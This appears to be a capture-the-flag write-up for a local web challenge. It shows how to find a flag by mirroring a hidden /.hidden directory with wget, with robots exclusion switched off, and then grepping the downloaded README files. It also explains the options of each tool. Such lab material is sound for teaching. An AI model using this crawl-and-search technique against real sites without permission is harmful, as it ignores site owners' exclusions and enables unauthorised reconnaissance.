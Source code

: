 # 

##  To discover the flag:

- Run the VM to serve the website, and navigate to http://0.0.0.0/.hidden using the IP address provided.
- The flag is contained inside a file deeply nested inside one of the directories listed.
- To help automate the discovery, first create an empty directory called 'flag' using `mdkir`.
- Ensure that `wget`, a free utility for non-interactive download of files from the Web, is installed.
- Download all files using the following command (This can take a while... there are around 17500 files to download):
```bash
wget --mirror -A README -P ./flag -e robots=off http://0.0.0.0/.hidden/
```
- Pipe discovered filenames found using the `find` command as arguments  to `grep` which searches for the alpha numeric pattern and then pipe any results to `cut` to print out the flag part only:
```bash
find ./flag -name README | xargs grep -E '[a-z][0-9]' | cut -d : -f2
```
 
### Notes on options and utilites used:

wget:
```
--mirror: Turn on options suitable for mirroring. This option turns on recursion and time-stamping, sets infinite recursion depth and keeps FTP directory listings.
-A: Recursive Accept. Used to enforce downloading of README files only.

-P: Set directory prefix to prefix.  The directory prefix is the directory where all
    other files and subdirectories will be saved to, i.e. the top of the retrieval
    tree.

-e: execute command robot=off turns off robot exclusion)
```
xargs: used to build and execute command lines from standard input effectively turning its stdin into arguments piped to chained commands.

grep: searches for PATTERNS in each FILE.

cut: prints selected parts of lines from each FILE to standard output.
